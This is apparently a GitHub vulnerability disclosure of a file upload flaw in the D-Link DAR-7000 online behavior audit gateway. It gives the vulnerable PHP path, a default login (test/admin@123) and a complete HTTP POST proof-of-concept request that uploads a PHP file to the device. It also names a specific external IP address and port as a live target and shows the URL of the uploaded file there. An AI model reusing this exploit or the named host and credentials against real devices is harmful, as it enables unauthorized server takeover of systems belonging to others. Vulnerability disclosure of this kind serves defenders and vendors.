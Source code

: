 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/useratte/userattestation.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc：
```
POST /useratte/userattestation.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=8659d83a54870e751279e17bd3ce73e1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 577
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328—

```

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/9abf14e5-d793-4acd-ab61-0a5e5b77e457">

https://60.22.74.195:8443/boot/web/upload/weblogo/1.php 

<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b55def74-7f88-49c9-bf07-479378e15c51">

